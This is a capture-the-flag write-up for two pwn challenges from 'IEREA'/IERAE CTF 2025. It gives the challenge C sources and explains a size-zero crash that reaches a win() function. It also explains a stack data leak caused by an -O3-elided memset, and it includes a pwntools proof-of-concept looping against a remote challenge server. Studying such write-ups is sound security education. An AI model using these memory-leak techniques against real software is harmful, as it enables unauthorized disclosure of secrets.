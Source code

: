 # IEREA CTF 2025


## Challenges: Length Calculator & Stdio_studio
**Total Points:** 288 \
**Category:** Pwn

---

## TL;DR

[These challenges are about the importance of handling edge cases and various input signals.]

---

## Length Calculator:
- **chal** : ELF binary.
- **chal.c** : source file

```
// gcc chal.c -o chal

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>
#include <sys/mman.h>

void win(int sig) {
  puts("Well done!");
  system("cat ./flag*");
  exit(0);
}

int main() {
  // If you cause SEGV, then you will get flag
  signal(SIGSEGV, win);
  setbuf(stdout, NULL);

  while (1) {
    unsigned int size = 100;
    
    printf("Enter size: ");
    scanf("%u%*c", &size);
    
    char *buf = mmap(NULL, size, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
    if (!buf) {
      puts("Too large!");
      exit(1);
    }
    
    printf("Input: ");
    fgets(buf, size, stdin);
    buf[strcspn(buf, "\n")] = '\0';
    
    printf("Your string length: %d\n", strlen(buf));
  }
}
```


From the source code, we can that a `win()` function is given, and in order to call it, a SIGSEGV signal must be triggered: `signal(SIGSEGV, win);`

So, by simply giving `0` as size, the instruction `buf[strcspn(buf, "\n")] = '\0'; ` causes a SIGSEGV because `buf` has size 0, it tries to write `\0` into `buf[strcspn(buf, "\n")]`. 

![pOc](https://github.com/MohandAcherir/Writeups/blob/main/IEREA/Screenshot%20from%202025-06-22%2001-01-28.png)


## Stdio_studio:
- **chal** : ELF binary.
- **chal.c** : source file

Here's `chal.c`:

```
// gcc chal.c -o chal -O3

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

void load_flag() {
  char flag[128] = "";

  FILE *fp = fopen("flag.txt", "rb");
  if (!fp) {
    puts("Something went wrong. Call admin.");
    exit(1);
  }

  fread(flag, sizeof(char), 128, fp);
  fclose(fp);

  // puts(flag); // Sorry! No flag for you!
  memset(flag, 0, 128); // The secret should be cleared up
}

void echo(void) {
  unsigned int size;
  char *buf;

  printf("Size: ");
  scanf("%u%*c", &size);

  buf = alloca(size);
  if (!buf) {
    puts("Too large!");
    exit(1);
  }

  printf("Input: ");
  fgets(buf, size, stdin);

  sleep(1);

  printf("Output: %s\n", buf);
}

int main() {
  setbuf(stdout, NULL);

  puts("1. Load flag");
  puts("2. Echo");

  while (1) {
    int cmd;

    printf("Enter command: ");

    scanf("%d%*c", &cmd);

    if (cmd == 1) load_flag();
    else if (cmd == 2) echo();
    else {
      puts("Invalid command :(");
      return 0;
    }
  }
}
```
First off, notice that the binary is compiled with the command `gcc chal.c -o chal -O3`, and keep it for later.

We've got 3 functions, `main()` and `echo()` and `load_flag()`.\
The main function queries us to either tap 1 to load the flag into memory, or 2 to read the stack.

### Analysis:
Let's start with `echo()`:
```
  printf("Size: ");
  scanf("%u%*c", &size);

  buf = alloca(size);
  if (!buf) {
    puts("Too large!");
    exit(1);
  }

  printf("Input: ");
  fgets(buf, size, stdin);

  sleep(1);

  printf("Output: %s\n", buf);
  ```

Basically, this function asks for a size from the user, and then uses it to allocate stack memory with `alloca()`, and reads from stdin and displays the content of the buffer(...and beyond). \
**Note**: Alloca(size) is equivalent to a simple `sub rsp, sz`; so it's not like a heap allocation.

Let's move on to `load_flag()`:
```
  char flag[128] = "";

  FILE *fp = fopen("flag.txt", "rb");
  if (!fp) {
    puts("Something went wrong. Call admin.");
    exit(1);
  }

  fread(flag, sizeof(char), 128, fp);
  fclose(fp);

  // puts(flag); // Sorry! No flag for you!
  memset(flag, 0, 128); // The secret should be cleared up
```

This function reads the flag from *flag.txt*, stores it in a buffer, and then seemingly clearing it up at the end.

But wait, remember that the binary is compiled with the `-O3` option.\
The -O3 option in GCC enables the highest level of standard optimization. It includes all optimizations from -O2 plus additional optimizations. So in a nutshell, the line `memset(flag, 0, 128);` is opitimized out, hence, the flag still lives in memory.


### Exploitation strategy:
- Since calling `echo()`after `load_function()`, makes its stack frame live in - roughly - the same exact addresses as the latter, we can print the flag by iterating through 1 to 111 (for example) and try to make our input contiguous to the flag bytes, so that printf catches it and prints along with the data supplied.


**PoC:**

```

from pwn import *


for i in range(20, 111):
    #p = process('./chal')
    p = remote('35.187.219.36', 33335)
    p.recv()
    p.sendline(b'1')
    p.recv()
    p.sendline(b'2')
    p.recv()
    p.sendline(str(i).encode())
    p.recv()
    p.shutdown('send')
    res = p.recvuntil(b"Enter command: ")
    if b'IERAE{' in res:
        print(res)

    p.close()

```

![pOc](https://github.com/MohandAcherir/Writeups/blob/main/IEREA/Screenshot%20from%202025-06-22%2000-58-08.png)
